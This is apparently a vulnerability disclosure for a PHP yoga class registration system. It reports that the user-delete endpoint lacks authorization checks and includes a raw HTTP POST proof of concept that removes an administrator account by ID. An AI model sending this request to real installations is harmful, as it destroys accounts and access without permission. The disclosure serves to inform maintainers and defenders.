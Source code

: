 ## Yoga Class Registration System has Delete any user


## supplier
https://www.sourcecodester.com/php/16097/yoga-class-registration-system-php-and-mysql-free-source-code.html

## Vulnerability file
/php-ycrs/classes/Users.php?f=delete


## describe
There is a vulnerability in the yoga registration system that allows unlimited deletion of users. An attacker could exploit this vulnerability to directly remove an administrator from the system without authorization.

POC
```
POST /php-ycrs/classes/Users.php?f=delete HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 4
Origin: http://localhost
Connection: close
Referer: http://localhost/php-ycrs/admin/?page=user/list
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=8
```

Administrators are removed without authorization.
<img width="1445" alt="image" src="https://github.com/user-attachments/assets/aabc67ec-7a8f-4e09-a738-0c34e4620243">
<img width="1204" alt="image" src="https://github.com/user-attachments/assets/ea00e8b2-61d5-4ee3-bc41-3def55e36f29">
<img width="1435" alt="image" src="https://github.com/user-attachments/assets/03caa3e8-8a65-4d07-ad92-addabe25c90b">








